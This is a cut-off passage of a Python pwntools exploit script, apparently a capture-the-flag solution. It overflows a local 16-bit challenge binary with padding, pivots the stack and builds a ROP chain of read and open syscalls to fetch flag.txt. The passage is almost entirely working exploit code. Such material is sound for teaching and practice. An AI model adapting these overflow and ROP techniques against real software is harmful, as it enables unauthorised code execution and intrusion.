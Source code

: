 ```python
'''.format(**locals())

#### PROGRAM EXECUTION ####

pop_bp_ret = p16(0x724) #pop bp; ret
read_syscall = p16(0x88) # syscall read (the syscall sets arguents with bp+2, bp+4, bp+6 AND sets ax)
set_dx_cx_bx = p16(0x9f) # like read_syscall but bypasses ax setting
pivoting = p16(0x722) # stack pivoting (mov bp, sp; pop bp; ret)
set_ax_dx = p16(0x6f9) #mov 0x6(bp) ax, mov 0x8(bp), mov bp sp, pop bp, ret
ret = p16(0x725) # return 
triple_pop = p16(0x6c6) #pop bp, pop di, pop si
exit = p16(0x8e)
bp_address = 0x2000 # base address of the data area where to write ropchain and files

io = start(["../tests/final"])
#io.sendline(" ")
payload = flat(
    b"A"*40, #random data
    b"B"*2, #fake bp (not useful)
    pop_bp_ret, 
    p16(bp_address), # This is the address of bp to write stuff
    read_syscall, 
    pivoting, 
    p16(0x0), #bx
    p16(bp_address), #cx
    p16(0x500), #dx
)

print(io.recvuntil("Pwn me:\n"))
#print(io.recvrepeat(timeout=2))
io.send(payload)

rop_chain = flat(
    # READ TO PUT FLAG.TXT
    p16(0x0),
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0xa), # bp value calculated considering the distances between elements
    set_ax_dx, 
    p16(0x0), # dummy
    ret, #ret to manage alignment
    triple_pop, #triple pop to move sp and avoid  
    p16(0x3), #dummy value for space reason
    p16(0x3), #ax value (SETS SYSCALL NUMBER - READ) 
    p16(0x0), #dx value (not required. will be reset later)
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x16), # new pop bp value
    set_dx_cx_bx, 
    triple_pop, #triple pop to go to the next call
    p16(0x0), #bx
    p16(bp_address+0x200), #cx - I write flag.txt here
    p16(0x500), #dx

    # # # OPEN SYSCALL
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x2a), # bp value calculated considering the distances between elements (updated +0x20)
    set_ax_dx, #mov 0x6(bp) ax, mov 0x8(bp), mov bp sp, pop bp, ret
    p16(0x0), # dummy
    ret, #ret to manage alignment
    triple_pop, #triple pop to move sp and avoid  
    p16(0x3), #dummy value for space reason
    p16(0x5), #ax value (SETS SYSCALL NUMBER - OPEN) 
```